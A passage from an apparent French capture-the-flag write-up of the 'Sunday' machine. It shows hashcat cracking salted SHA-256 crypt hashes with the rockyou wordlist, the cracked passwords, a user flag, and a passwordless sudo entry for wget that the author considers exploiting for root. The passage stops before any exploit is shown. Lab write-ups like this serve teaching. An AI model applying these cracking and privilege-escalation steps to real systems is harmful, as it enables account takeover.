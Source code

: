 Il est temps de faire chauffer le processeur (faute de mieux) :  

```console
$ ./hashcat64.bin -m 7400 -a 0 /tmp/hashes.txt /opt/wordlists/rockyou.txt
 hashcat (v4.1.0) starting...

 OpenCL Platform #1: Intel(R) Corporation
 ========================================
 * Device #1: Intel(R) Core(TM) i5-7200U CPU @ 2.50GHz, 3981/15926 MB allocatable, 4MCU

 Hashes: 3 digests; 3 unique digests, 3 unique salts
 Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
 Rules: 1

 Applicable optimizers:
 * Zero-Byte

 Minimum password length supported by kernel: 0
 Maximum password length supported by kernel: 256

 ATTENTION! Pure (unoptimized) OpenCL kernels selected.
 This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
 If you want to switch to optimized OpenCL kernels, append -O to your commandline.

 Watchdog: Hardware monitoring interface not found on your system.
 Watchdog: Temperature abort trigger disabled.

 Dictionary cache hit:
 * Filename..: /opt/wordlists/rockyou.txt
 * Passwords.: 14344389
 * Bytes.....: 139921537
 * Keyspace..: 14344389

 $5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
 $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

Sunday
------

Une fois connecté avec le compte *sammy* on obtient notre flag (`a3d9498027ca5187ba1793943ee8a598`).  

Et on dispose d'une entrée sudo intéressante :  

```console
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

La question s'est posée de comment exploiter cette autorisation sans spolier les autres participants et sans modifier de fichiers système (ex: `/etc/passwd`) ce qui risquerait là aussi de bloquer les autres participants...  
